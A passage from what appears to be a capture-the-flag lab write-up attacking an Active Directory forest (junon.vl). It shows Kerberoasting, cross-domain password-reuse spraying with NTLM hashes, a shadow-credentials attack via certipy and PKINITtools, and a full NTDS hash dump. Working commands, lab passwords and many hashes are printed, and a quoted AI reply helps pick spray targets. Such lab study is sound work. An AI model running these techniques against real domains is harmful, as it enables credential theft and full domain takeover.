T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 23.333 days (since Sat Mar  7 01:12:40 2026)
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: Host: S021M200; OS: Windows; CPE: cpe:/o:microsoft:windows

```

# AD

Now I abused the bi-directional trust between the WORK&EU domain to perform a domain analysis  and I see that this new (EU) realm has third connection to a IT domain, but this time one-way:



There is a interesting account that has high privileges:  


I see some foreign users but between this and the third(IT) domain so not so usefull here:



I see a kerberoastable user?



Which BTW can perform a Shadow credentials attack:  


Now it is time to move forward! And I have the hashcat credentials:

```bash
└─$ impacket-GetUserSPNs -request -target-domain eu.junon.vl work.junon.vl/dom-fstewart:'HO4_+eWWPd66K9'                                                     
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName            Name        MemberOf                                     PasswordLastSet             LastLogon                   Delegation 
------------------------------  ----------  -------------------------------------------  --------------------------  --------------------------  ----------
BackupSVC/s021M215.eu.junon.vl  svc_backup  CN=Key Admins,CN=Users,DC=eu,DC=junon,DC=vl  2023-03-29 19:18:18.742454  2026-03-31 10:39:00.042380             


[-] CCache file is not found. Skipping...
$krb5tgs$23$*svc_backup$EU.JUNON.VL$eu.junon.vl/svc_backup*$3aed4bae3e206be5d3be3800b91f4207$8fd592f60de993bca2f6b6daa1fade2694c0e854f31da016c08db1d19d416595e2a73a191721ca290c180b78784a6008fdc0fee4693b232f0bff76f1ad5eaa1aff036fe33d7cca019d35b3024dfaf92ea6e7fd2c2a46a45a985212fdb39806b3f22d2164e8bb95b8514dae7b096472ca5bd71577c96c65bc0b7c8bef52fdb7439d5f4e8d0ea87896fa4f43ca1aebfcbc025526e46cf44881572f7526c62a03c4fda6dd749163388af4800570056398732a6c6437a7d82d9e677a83c02c22f6c4e136089e1399af094f7c7df06c51a4485c8c9f16ad54b6e11cf8c3b3b9870306f9425af9a2c9e08cfc5e8bc0e58e544116ef78ad2996a43330a0b5686d87771cd5947b20ac0d23918d04248db9bf00c2de16b75ecfcaa0ec5c6cb1f1a05d7b00add1ff7504cbd62442ab81e8c2b3b1872e39b2c3c994df52cbd0679c39b8d33868b5da8573855e9f168c543a0f7027b45ee9b181e109fe7fc42371688ff7cfcc8e4d4184c151efe3cf5cbb00e37454362a354003462e3917f72d4b94eaf9d47b1072f86ccbd8aa57bc1ff12b24d7c3043eaa7acf1b971426cdf826a73f079e69cde1ef029e26e3fcc0944909d1425967dda5334357539b79165d812740c391135ea792e6f1688726f550733857e011fe62a8555397ed0317e40399c9f480bca5fef32149959292bd9bbd24413fc08f00b9b7035129574bb181a1d8a7685eb8318aee4cdee217bf2a88a28bda4079412382865a6fbeabd75e57c03f63d22b421fb068f8e26771234b560d69719239076cd1cfe4ebf9daf9b9e74abe69270537c2828b5faeb999e872754687a0672f3939344415b719dfff884febdc6572dde3f13418a4459508693fa5d0bad48be9a52e96a9e65902ebcc628dff28f300e8be48aaedde330334dceaacdd6359f2e60f4e0de5162405a878fb00e3ea8c11b0e5f2656f2e68b29124bcc04dfca8d1bf7aa6f30077fc330ff4d008bda62e22fbeea730b8d8a43c66abb53a0202b78237d008e58a87b6ad2ff638a7ff2ae9c00778a528084bb6b8cc85b48edf9caf0c4b4d56dc2522d215a553fc67719fae508822386ba35170e994aeffa65fc56aabf58b4236c652181988679e8f022615f57481db8f5e4ef1aab05279aeadb883758a1d4f68f317d8ab33370fdf969f5d164d4d5f35fc996d0a6613a56cd904b7beda14d3fd6c7ecd804dcfa260907af3d43da8262c27978940d0468e4e08b23d6a03ab1fe532331e1acad873096f6855c202b9c0a1a823065aec6b84d6e18b8331d49bd5efa630dc4ac74bd8abcf79bfb45d705580d68046e343e67cf1dd162f32ba4f295200c0ac94191919fc45c4ffaefb4c7e75d3dd73725c643d8a75f12ad943fbc036fa003794ad45bbe3dc7d3ab0826fdd4db6c053f8c35d65c1eb2801635fc68a116f9ebcd6b488cbe70d30b29caaa9a4345cdee06350d44fc324f4403c32360abf1ceb3959fa6a319974c73cceb4e26a07653ee201d411bc5d1959a50e23ee11433a59d5f3bba086788d855d6be4f06f01bb292820de6ce49cdadf492fd5ad0333260033e163fbc65b8d0b6f94b75dda1a32f8d9bf895a0240a7

```

But it is not crackable?

Now here I was lost for a long time and I thought what if there are some password reuse between 2 domains? So I asked AI to generate me a list over the users that share the same surname from WORK to EU and check that in the new EU domain:

```bash
$ # Clean and lower-case both lists
cat users.txt | tr '[:upper:]' '[:lower:]' | tr -d '\r' > work.tmp
cat users_eu.txt | tr '[:upper:]' '[:lower:]' | tr -d '\r' > eu.tmp

# Extract "Core" identifiers
# This turns 'Garry.Smith' -> 'smith' and 'svc_backup' -> 'backup'
sed -E 's/^(svc_|sa-|adm-)//; s/.*\.//; s/(_adm|_svc)$//' work.tmp | sort -u > work_cores.txt
sed -E 's/^(svc_|sa-|adm-)//; s/.*\.//; s/(_adm|_svc)$//' eu.tmp | sort -u > eu_cores.txt

# Find which IDs exist in the New Domain (EU)
comm -12 work_cores.txt eu_cores.txt > migrated_cores.txt
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Wutai]
└─$ echo "[+] Users found in EU that likely migrated from WORK:" > migrated_report.txt
for core in $(cat migrated_cores.txt); do
    echo "--- ID: $core ---" >> migrated_report.txt
    grep -i "$core" eu.tmp >> migrated_report.txt
done

cat migrated_report.txt
[+] Users found in EU that likely migrated from WORK:
--- ID: atkins ---
duncan.atkins
--- ID: begum ---
clifford.begum
teresa.begum
--- ID: bell ---
carl.bell
gareth.campbell
--- ID: bennett ---
kieran.bennett
kirsty.bennett
--- ID: brooks ---
lesley.brooks
thomas.brooks
--- ID: brown ---
arthur.brown
naomi.brown
craig.brown
carolyn.brown
jean.brown
--- ID: burton ---
ricky.burton
adrian.burton
--- ID: campbell ---
gareth.campbell
--- ID: carter ---
june.carter
--- ID: clarke ---
ian.clarke
maria.clarke
michael.clarke
mary.clarke
--- ID: clayton ---
mandy.clayton
--- ID: coleman ---
julian.coleman
--- ID: collins ---
julian.collins
anna.collins
--- ID: cooke ---
glen.cooke
--- ID: davies ---
hugh.davies
--- ID: edwards ---
antony.edwards
--- ID: evans ---
julian.evans
--- ID: fitzgerald ---
barbara.fitzgerald
--- ID: forster ---
kerry.forster
--- ID: francis ---
amber.francis
francis.myers
--- ID: gibson ---
dylan.gibson
--- ID: green ---
kirsty.green
wendy.green
--- ID: harrison ---
sean.harrison
--- ID: harvey ---
malcolm.harvey
clifford.harvey
--- ID: hill ---
ross.hill
adam.hill
kate.phillips
--- ID: hopkins ---
cheryl.hopkins
deborah.hopkins
--- ID: houghton ---
philip.houghton
--- ID: hughes ---
sally.hughes
--- ID: jackson ---
denise.jackson
jane.jackson
--- ID: james ---
stanley.james
--- ID: jenkins ---
frederick.jenkins
--- ID: johnson ---
kieran.johnson
michael.johnson
amber.johnson
judith.johnson
--- ID: jones ---
deborah.jones
kenneth.jones
connor.jones
--- ID: kelly ---
carolyn.kelly
kelly.carroll
--- ID: king ---
wayne.king
--- ID: kmorris ---
sa-kmorris
--- ID: lee ---
rosemary.lee
lee.cox
kathleen.potter
albert.lee
dom-alee
--- ID: lewis ---
alexander.lewis
jake.lewis
kate.lewis
--- ID: lynch ---
helen.lynch
--- ID: mahmood ---
frances.mahmood
--- ID: mann ---
kate.mann
--- ID: marshall ---
ross.marshall
--- ID: middleton ---
natalie.middleton
--- ID: mitchell ---
mitchell.herbert
molly.mitchell
--- ID: morgan ---
jade.morgan
--- ID: nicholls ---
dylan.nicholls
--- ID: o'brien ---
marie.o'brien
--- ID: parker ---
neil.parker
fiona.parker
--- ID: patel ---
toby.patel
ruth.patel
--- ID: phillips ---
kate.phillips
--- ID: rees ---
gerald.rees
elliot.rees
rhys.rees
--- ID: roberts ---
leon.roberts
barry.roberts
--- ID: robinson ---
hilary.robinson
colin.robinson
--- ID: rogers ---
patrick.rogers
--- ID: ryan ---
annette.ryan
paul.ryan
--- ID: simpson ---
sandra.simpson
--- ID: smith ---
carol.smith
bruce.smith
vincent.smith
paige.smith
tina.smith
kerry.smith
darren.smith
ruth.smith
garry.smith
--- ID: steele ---
emily.steele
--- ID: taylor ---
damian.taylor
donna.taylor
--- ID: townsend ---
mandy.townsend
--- ID: turner ---
stanley.turner
--- ID: ward ---
howard.wood
norman.ward
amber.ward
antony.edwards
--- ID: west ---
clare.west
sa-dwest
--- ID: williams ---
stanley.williams
lucy.williams
tony.williams
ross.williams
--- ID: wood ---
philip.woods
francesca.woods
howard.wood
--- ID: woods ---
philip.woods
francesca.woods
--- ID: wright ---
dylan.wright
georgina.cartwright
--- ID: yates ---
ricky.yates

```

Now a quick cleanup is this

```bash
adrian.burton
albert.lee
alexander.lewis
amber.francis
amber.johnson
amber.ward
anna.collins
annette.ryan
antony.edwards
arthur.brown
barbara.fitzgerald
barry.roberts
bruce.smith
carl.bell
carol.smith
carolyn.brown
carolyn.kelly
cheryl.hopkins
clare.west
clifford.begum
clifford.harvey
colin.robinson
connor.jones
craig.brown
damian.taylor
darren.smith
deborah.hopkins
deborah.jones
denise.jackson
dom-alee
donna.taylor
duncan.atkins
dylan.gibson
dylan.nicholls
dylan.wright
elliot.rees
emily.steele
fiona.parker
frances.mahmood
francesca.woods
francis.myers
frederick.jenkins
garry.smith
gareth.campbell
georgina.cartwright
gerald.rees
glen.cooke
helen.lynch
hilary.robinson
howard.wood
hugh.davies
ian.clarke
jade.morgan
jake.lewis
jane.jackson
jean.brown
judith.johnson
julian.coleman
julian.collins
julian.evans
june.carter
kate.lewis
kate.mann
kate.phillips
kathleen.potter
kelly.carroll
kenneth.jones
kerry.forster
kerry.smith
kieran.bennett
kieran.johnson
kirsty.bennett
kirsty.green
lee.cox
leon.roberts
lesley.brooks
lucy.williams
malcolm.harvey
mandy.clayton
mandy.townsend
maria.clarke
marie.o'brien
mary.clarke
michael.clarke
michael.johnson
mitchell.herbert
molly.mitchell
naomi.brown
natalie.middleton
neil.parker
norman.ward
paige.smith
patrick.rogers
paul.ryan
philip.houghton
philip.woods
rhys.rees
ricky.burton
ricky.yates
rosemary.lee
ross.hill
ross.marshall
ross.williams
ruth.patel
ruth.smith
sa-dwest
sa-kmorris
sally.hughes
sandra.simpson
sean.harrison
stanley.james
stanley.turner
stanley.williams
teresa.begum
thomas.brooks
tina.smith
toby.patel
tony.williams
vincent.smith
wayne.king
wendy.green
```

Now I need to export the ntlm hashes from the NTDS that matches partially of the name from this list:

```bash
# Set your NTDS filename
NTDS_FILE="172.16.21.10_None_2026-03-31_115803.ntds"

# Loop through each clean EU username
while read eu_user; do
    # 1. Get the 'core' name (e.g. 'Stanley.Lee' or 'kmorris')
    # This strips 'sa-', 'svc-', etc., but keeps the Name.Surname format
    core=$(echo "$eu_user" | sed -E 's/^(svc_|sa-|adm-|dom-)//i')

    # 2. Search for that core name in the NTDS file (case-insensitive)
    # We look for the part after the backslash
    match=$(grep -i "\\\\$core:" "$NTDS_FILE")

    if [ ! -z "$match" ]; then
        # 3. Extract the 4th field (NTLM hash)
        hash=$(echo "$match" | cut -d: -f4)
        echo "$eu_user:$hash" >> eu_spray_final.txt
    fi
done < eu_users.txt

echo "[+] Created eu_spray_final.txt with $(wc -l < eu_spray_final.txt) entries."
```

Now I have a pseudo list over the good users but I am not able to parse that to the correct respective NTLM hash so i thought that other server is a MSSQL

Now here it was a turdle but AI hlped me to narrow donw these users and remove the false positives:

```
Yep — you’re right, and I see what’s happening now. My first pass was too literal.

You’re mixing formats across datasets, so we need to match both directions:

name.surname ⇄ nsurname
AND handle prefixes like sa-, svc-
AND match nsurname → full name.surname (this is what I initially missed)
✅ Correct Matches (after fixing logic)

Here are the actual matches from users_eu → NTDS:

garry.smith → garry.smith
sa-dwest → dale.west ✅ (this is the one you pointed out)
sa-kmorris →
kate.morris
also literal sa-kmorris exists
```

And seems like only one user shares the same credentials?

```
──(user㉿kali-almi)-[~/Downloads/Wutai]
└─$ netexec smb 172.16.21.222 -u kate.morris -H 5d4d1612f20614cb49ffdf0c6f7377f7
SMB         172.16.21.222   445    S021M200         [*] Windows Server 2022 Build 20348 x64 (name:S021M200) (domain:eu.junon.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.21.222   445    S021M200         [-] eu.junon.vl\kate.morris:5d4d1612f20614cb49ffdf0c6f7377f7 STATUS_LOGON_FAILURE 
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Wutai]
└─$ netexec smb 172.16.21.222 -u sa-kmorris -H 4fd64fa379181761b526f77ce577b5ac
SMB         172.16.21.222   445    S021M200         [*] Windows Server 2022 Build 20348 x64 (name:S021M200) (domain:eu.junon.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.21.222   445    S021M200         [-] eu.junon.vl\sa-kmorris:4fd64fa379181761b526f77ce577b5ac STATUS_LOGON_FAILURE 
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Wutai]
└─$ netexec smb 172.16.21.222 -u sa-dwest -H fa277a017b90f30048992530d3f9b75f
SMB         172.16.21.222   445    S021M200         [*] Windows Server 2022 Build 20348 x64 (name:S021M200) (domain:eu.junon.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.21.222   445    S021M200         [+] eu.junon.vl\sa-dwest:fa277a017b90f30048992530d3f9b75f 
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Wutai]
└─$ netexec smb 172.16.21.222 -u garry.smith -H 4ed87458bfd1166a398ebad53d6935fe
SMB         172.16.21.222   445    S021M200         [*] Windows Server 2022 Build 20348 x64 (name:S021M200) (domain:eu.junon.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.21.222   445    S021M200         [-] eu.junon.vl\garry.smith:4ed87458bfd1166a398ebad53d6935fe STATUS_LOGON_FAILURE 
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Wutai]
└─$
```

And seems like I can login as admin! I will temporarly move on to the only server here.

# The final stretch

Now I can use those credentials to perform a shadow credentials but seems the PKMINT seems fighting back:

```bash
┌──(user㉿kali-almi)-[~/Downloads/Wutai]
└─$ certipy-ad shadow auto -u 'svc_backup@eu.junon.vl' -p 'b4ckup5821!' -dc-ip 172.16.21.222 -account 'S021M200$'
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Targeting user 'S021M200$'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'b04c842adcb244c3aacec4f4b20baf1f'
[*] Adding Key Credential with device ID 'b04c842adcb244c3aacec4f4b20baf1f' to the Key Credentials for 'S021M200$'
[*] Successfully added Key Credential with device ID 'b04c842adcb244c3aacec4f4b20baf1f' to the Key Credentials for 'S021M200$'
[*] Authenticating as 'S021M200$' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 's021m200$@eu.junon.vl'
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
[-] Use -debug to print a stacktrace
[-] See the wiki for more information
[*] Restoring the old Key Credentials for 'S021M200$'
[*] Successfully restored the old Key Credentials for 'S021M200$'
[*] NT hash for 'S021M200$': None
                                       
```

Now since the PMKINIT(aka login via cert) is not supported then i will only write the flag:

```bash
─$ certipy-ad shadow add -u 'svc_backup@eu.junon.vl' -p 'b4ckup5821!' -dc-ip 172.16.21.222 -account 'S021M200$'
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Targeting user 'S021M200$'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '7da88240115846638d63387f9aaf4a5d'
[*] Adding Key Credential with device ID '7da88240115846638d63387f9aaf4a5d' to the Key Credentials for 'S021M200$'
[*] Successfully added Key Credential with device ID '7da88240115846638d63387f9aaf4a5d' to the Key Credentials for 'S021M200$'
[*] Saving certificate and private key to 'S021M200.pfx'
[*] Saved certificate and private key to 'S021M200.pfx'
                                                          
```

now instead of performing a full-authentication I will try to obtian a ldap shell insted.

Now for some reasons only pywhisker worked:

```bash
└─$ python3 ../../Tools/PKINITtools/gettgtpkinit.py -cert-pfx Lcp4HEMw.pfx -pfx-pass KIZQVVxJfSyKxSMA6uYi 'eu.junon.vl/S021M200$' S021M200.ccache
2026-03-31 14:20:28,987 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2026-03-31 14:20:29,019 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2026-03-31 14:20:41,139 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2026-03-31 14:20:41,140 minikerberos INFO     07336fdb5927b5d68a36f215a4e26df6000226c1f839ac307fe371c81fd9fbd9
INFO:minikerberos:07336fdb5927b5d68a36f215a4e26df6000226c1f839ac307fe371c81fd9fbd9
2026-03-31 14:20:41,149 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file

```

And I have the whole NTDS dit:

```bash
─$ netexec smb 172.16.21.222 --use-kcache --ntds   
SMB         172.16.21.222   445    S021M200         [*] Windows Server 2022 Build 20348 x64 (name:S021M200) (domain:eu.junon.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.21.222   445    S021M200         [+] EU.JUNON.VL\S021M200$ from ccache 
SMB         172.16.21.222   445    S021M200         [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
SMB         172.16.21.222   445    S021M200         [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         172.16.21.222   445    S021M200         Administrator:500:aad3b435b51404eeaad3b435b51404ee:ea2c613e21c9c999e7a1e19e0136427e:::
SMB         172.16.21.222   445    S021M200         Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.21.222   445    S021M200         krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d18450709089c49737575b6040aed184:::
SMB         172.16.21.222   445    S021M200         junon.vl\Bruce.Gardner:1104:aad3b435b51404eeaad3b435b51404ee:38afa1bf5ca01303d7379d873e435aa0:::
SMB         172.16.21.222   445    S021M200         junon.vl\Gerald.Rees:1105:aad3b435b51404eeaad3b435b51404ee:3b68ac0643104933ebf71147905ac0d5:::
SMB         172.16.21.222   445    S021M200         junon.vl\Jason.Bailey:1106:aad3b435b51404eeaad3b435b51404ee:b2d93affa5cecc4637a68a00e7b9c4b4:::
SMB         172.16.21.222   445    S021M200         junon.vl\Oliver.Day:1107:aad3b435b51404eeaad3b435b51404ee:f53176c23bef91b00b62941aedbe53d4:::
SMB         172.16.21.222   445    S021M200         junon.vl\Amber.Francis:1108:aad3b435b51404eeaad3b435b51404ee:22faf49383825bf325e0d186f47ddfe5:::
SMB         172.16.21.222   445    S021M200         junon.vl\Adrian.Thomas:1109:aad3b435b51404eeaad3b435b51404ee:acd24de3a710ff8898ff49ddc3ba3f82:::
SMB         172.16.21.222   445    S021M200         junon.vl\Malcolm.Harvey:1110:aad3b435b51404eeaad3b435b51404ee:100d6686872cfcc6d0cbfe8c9c959350:::
SMB         172.16.21.222   445    S021M200         junon.vl\Alex.Cole:1111:aad3b435b51404eeaad3b435b51404ee:715f912d9cd547ed3f868f0571a9f27b:::
SMB         172.16.21.222   445    S021M200         junon.vl\Rosemary.Lee:1112:aad3b435b51404eeaad3b435b51404ee:c691d7f9b3b9abab968949b1ff74ad61:::
SMB         172.16.21.222   445    S021M200         junon.vl\Teresa.Shah:1113:aad3b435b51404eeaad3b435b51404ee:8a7467bfae7dbbaac7316f21f561a7f0:::
SMB         172.16.21.222   445    S021M200         junon.vl\Glenn.Craig:1114:aad3b435b51404eeaad3b435b51404ee:e1c19c89560286c73323ddcf641e702d:::
SMB         172.16.21.222   445    S021M200         junon.vl\Carol.Smith:1115:aad3b435b51404eeaad3b435b51404ee:40ad0df544385695c4f832815b7bc10b:::
SMB         172.16.21.222   445    S021M200         junon.vl\Leslie.Wilson:1116:aad3b435b51404eeaad3b435b51404ee:82011cb94a967c8660c7f5898b9680f3:::
SMB         172.16.21.222   445    S021M200         junon.vl\Dylan.Wright:1117:aad3b435b51404eeaad3b435b51404ee:125aad56bfad56760d9dc3e660b08940:::
SMB         172.16.21.222   445    S021M200         junon.vl\Bruce.Smith:1118:aad3b435b51404eeaad3b435b51404ee:b64151aabe4af0b4de321c0f2bca85cd:::
SMB         172.16.21.222   445    S021M200         junon.vl\Frances.Mahmood:1119:aad3b435b51404eeaad3b435b51404ee:87592b1495de8e9983c15189f5e98b5a:::
SMB         172.16.21.222   445    S021M200         junon.vl\David.Griffiths:1120:aad3b435b51404eeaad3b435b51404ee:096169dd5f6729c35749b62928924520:::
SMB         172.16.21.222   445    S021M200         junon.vl\Mitchell.Herbert:1121:aad3b435b51404eeaad3b435b51404ee:c5ab1cb4c2729d105e5ca054de3625c0:::
SMB         172.16.21.222   445    S021M200         junon.vl\Deborah.Jones:1122:aad3b435b51404eeaad3b435b51404ee:5cd2bc4713978682e506cb5ebcda1f13:::
SMB         172.16.21.222   445    S021M200         junon.vl\Deborah.Hamilton:1123:aad3b435b51404eeaad3b435b51404ee:873c1c51841a3a3ddded670632aac912:::
SMB         172.16.21.222   445    S021M200         junon.vl\Kirsty.Green:1124:aad3b435b51404eeaad3b435b51404ee:35adea1a35a2d7eacd00386dac26821d:::
SMB         172.16.21.222   445    S021M200         junon.vl\Scott.Dean:1125:aad3b435b51404eeaad3b435b51404ee:28e98031673c98afb30a5974cf1582db:::
SMB         172.16.21.222   445    S021M200         junon.vl\Ross.Hill:1126:aad3b435b51404eeaad3b435b51404ee:77ac9e5e16b4810e126a028c178c0fde:::
SMB         172.16.21.222   445    S021M200         junon.vl\June.Carter:1127:aad3b435b51404eeaad3b435b51404ee:a888cd7f3d33b914a90757f6d4d1fbd8:::
SMB         172.16.21.222   445    S021M200         junon.vl\Jonathan.Cunningham:1128:aad3b435b51404eeaad3b435b51404ee:1bdc3209c6f5d6b0ced067a4d3681b7a:::
SMB         172.16.21.222   445    S021M200         junon.vl\Jade.Morgan:1129:aad3b435b51404eeaad3b435b51404ee:acbada76c51b12922b53a2d2f0b62c9d:::
SMB         172.16.21.222   445    S021M200         junon.vl\Carly.Rowley:1130:aad3b435b51404eeaad3b435b51404ee:e944d97aa638e08ec01a44772d9988a3:::
SMB         172.16.21.222   445    S021M200         junon.vl\Victor.Wilson:1131:aad3b435b51404eeaad3b435b51404ee:34c17cdbc52d959a671428af0eb7b86e:::
SMB         172.16.21.222   445    S021M200         junon.vl\Sally.Hughes:1132:aad3b435b51404eeaad3b435b51404ee:fa400589d01dcedfad9c3a8b230884a3:::
SMB         172.16.21.222   445    S021M200         junon.vl\Alexander.Lewis:1133:aad3b435b51404eeaad3b435b51404ee:a76b88650f89baf5b63a4879dddbf55b:::
SMB         172.16.21.222   445    S021M200         junon.vl\Duncan.Atkins:1134:aad3b435b51404eeaad3b435b51404ee:eb061fadee6cf0c08fde18254d3ea84a:::
SMB         172.16.21.222   445    S021M200         junon.vl\Judith.Wells:1135:aad3b435b51404eeaad3b435b51404ee:37d70e57b8e166a229acdd6a3fe2ac44:::
SMB         172.16.21.222   445    S021M200         junon.vl\Mathew.McCarthy:1136:aad3b435b51404eeaad3b435b51404ee:2a57c5b23ab7cbde31f7046d6281ec47:::
SMB         172.16.21.222   445    S021M200         junon.vl\Maria.Wilson:1137:aad3b435b51404eeaad3b435b51404ee:5335642598c834ab22c5846fc322e4d8:::
SMB         172.16.21.222   445    S021M200         junon.vl\Sheila.Dyer:1138:aad3b435b51404eeaad3b435b51404ee:9d92351fce8e0b2e673997a7fe28e9a3:::
SMB         172.16.21.222   445    S021M200         junon.vl\Kieran.Johnson:1139:aad3b435b51404eeaad3b435b51404ee:9be5a22e7073ed69a685d825cfbb404a:::
SMB         172.16.21.222   445    S021M200         junon.vl\Clifford.Begum:1140:aad3b435b51404eeaad3b435b51404ee:769c1a83bdf450197044d519a235f9af:::
SMB         172.16.21.222   445    S021M200         junon.vl\Garry.Armstrong:1141:aad3b435b51404eeaad3b435b51404ee:888de96e134c40ec21cb5f3b1f4338c8:::
SMB         172.16.21.222   445    S021M200         junon.vl\Emily.Steele:1142:aad3b435b51404eeaad3b435b51404ee:41941af4b9b95d8a86df0bd0af54b2ee:::
SMB         172.16.21.222   445    S021M200         junon.vl\Abigail.Cox:1143:aad3b435b51404eeaad3b435b51404ee:35067d2f15a037fe5f545b1c30e81b3d:::
SMB         172.16.21.222   445    S021M200         junon.vl\Philip.Woods:1144:aad3b435b51404eeaad3b435b51404ee:ceb6c8511257deca31d92c51cef2fe38:::
SMB         172.16.21.222   445    S021M200         junon.vl\Lee.Cox:1145:aad3b435b51404eeaad3b435b51404ee:2d87475a6065bfa536d3d4f7b8b5e07c:::
SMB         172.16.21.222   445    S021M200         junon.vl\Molly.Mitchell:1146:aad3b435b51404eeaad3b435b51404ee:328b1df97715870b90157ba2754bcfc9:::
SMB         172.16.21.222   445    S021M200         junon.vl\Stanley.Williams:1147:aad3b435b51404eeaad3b435b51404ee:eff60b75175a1ef6fd6303a4e7c4465d:::
SMB         172.16.21.222   445    S021M200         junon.vl\Glen.Cooke:1148:aad3b435b51404eeaad3b435b51404ee:46473a1e49f38d9b04eff698f5259e47:::
SMB         172.16.21.222   445    S021M200         junon.vl\Arthur.Brown:1149:aad3b435b51404eeaad3b435b51404ee:54740f47d5cb7a84403ebf7233f0d4d8:::
SMB         172.16.21.222   445    S021M200         junon.vl\Philip.Houghton:1150:aad3b435b51404eeaad3b435b51404ee:285e31213c59ec0a274a80891dc56fef:::
SMB         172.16.21.222   445    S021M200         junon.vl\Albert.Freeman:1151:aad3b435b51404eeaad3b435b51404ee:2d4f0245cfcc776d2d1702069ed4aa4f:::
SMB         172.16.21.222   445    S021M200         junon.vl\Glen.Barry:1152:aad3b435b51404eeaad3b435b51404ee:5ede3ddae9dc2e5e02b44f23644199eb:::
SMB         172.16.21.222   445    S021M200         junon.vl\Dylan.Gibson:1153:aad3b435b51404eeaad3b435b51404ee:bc199e0411af74cd833bb4c35eb24d57:::
SMB         172.16.21.222   445    S021M200         junon.vl\Julian.Collins:1154:aad3b435b51404eeaad3b435b51404ee:e0403bddf5e14d43c2629f90c8fff072:::
SMB         172.16.21.222   445    S021M200         junon.vl\Jake.Lewis:1155:aad3b435b51404eeaad3b435b51404ee:bf23a552ed97b0eef69746192382db65:::
SMB         172.16.21.222   445    S021M200         junon.vl\Glen.Murray:1156:aad3b435b51404eeaad3b435b51404ee:e67f5540d4196da6b8f9ba579848050e:::
SMB         172.16.21.222   445    S021M200         junon.vl\Teresa.Begum:1157:aad3b435b51404eeaad3b435b51404ee:a45656189248bf98c698218adeb08ec3:::
SMB         172.16.21.222   445    S021M200         junon.vl\Vincent.Smith:1158:aad3b435b51404eeaad3b435b51404ee:ba9ab6201bdd566d6324e5a8dd8b1f32:::
SMB         172.16.21.222   445    S021M200         junon.vl\Hilary.Harding:1159:aad3b435b51404eeaad3b435b51404ee:24eef31a90be6f6b5f7cec35c00f2698:::
SMB         172.16.21.222   445    S021M200         junon.vl\Francesca.Woods:1160:aad3b435b51404eeaad3b435b51404ee:72262107dd90b389f9e3f9c1f7d68d40:::
SMB         172.16.21.222   445    S021M200         junon.vl\Howard.Wood:1161:aad3b435b51404eeaad3b435b51404ee:f39f55ea8dc6e13d3e4c95e6781de858:::
SMB         172.16.21.222   445    S021M200         junon.vl\Carl.Young:1162:aad3b435b51404eeaad3b435b51404ee:d03d2391d5589b6be8d84b7548f1791b:::
SMB         172.16.21.222   445    S021M200         junon.vl\Ian.Clarke:1163:aad3b435b51404eeaad3b435b51404ee:9e4c830f326e51f07a82295172d6ed42:::
SMB         172.16.21.222   445    S021M200         junon.vl\Leon.Roberts:1164:aad3b435b51404eeaad3b435b51404ee:029bf971d645a31862ec6af637ccde02:::
SMB         172.16.21.222   445    S021M200         junon.vl\Michael.Johnson:1165:aad3b435b51404eeaad3b435b51404ee:0bc08c067732b180dc52f386295181b8:::
SMB         172.16.21.222   445    S021M200         junon.vl\Sarah.McDonald:1166:aad3b435b51404eeaad3b435b51404ee:14b321b1d193a44c85d8cf61a38a2267:::
SMB         172.16.21.222   445    S021M200         junon.vl\John.Hodgson:1167:aad3b435b51404eeaad3b435b51404ee:d90fe14b5c9aca6b4f9f29e986fe30d8:::
SMB         172.16.21.222   445    S021M200         junon.vl\Paige.Smith:1168:aad3b435b51404eeaad3b435b51404ee:0754c42fd0a4d4e4c0fea42a61cd721e:::
SMB         172.16.21.222   445    S021M200         junon.vl\Ross.Marshall:1169:aad3b435b51404eeaad3b435b51404ee:962982e440a594e06c8cccf23f0581d7:::
SMB         172.16.21.222   445    S021M200         junon.vl\Lesley.Brooks:1170:aad3b435b51404eeaad3b435b51404ee:4ce8d47509fb07b75ff85a0c4e2da9c6:::
SMB         172.16.21.222   445    S021M200         junon.vl\Grace.Kirby:1171:aad3b435b51404eeaad3b435b51404ee:e6df598073848eba812cd2f96adaa226:::
SMB         172.16.21.222   445    S021M200         junon.vl\Shaun.Young:1172:aad3b435b51404eeaad3b435b51404ee:8fcfddfd3b08a832fe4ef37cb171f45d:::
SMB         172.16.21.222   445    S021M200         junon.vl\Kate.Mann:1173:aad3b435b51404eeaad3b435b51404ee:d4ad971a649289b7e728f36f31264e65:::
SMB         172.16.21.222   445    S021M200         junon.vl\Kim.Potter:1174:aad3b435b51404eeaad3b435b51404ee:4f5957a4d3d5822237581e1269afe513:::
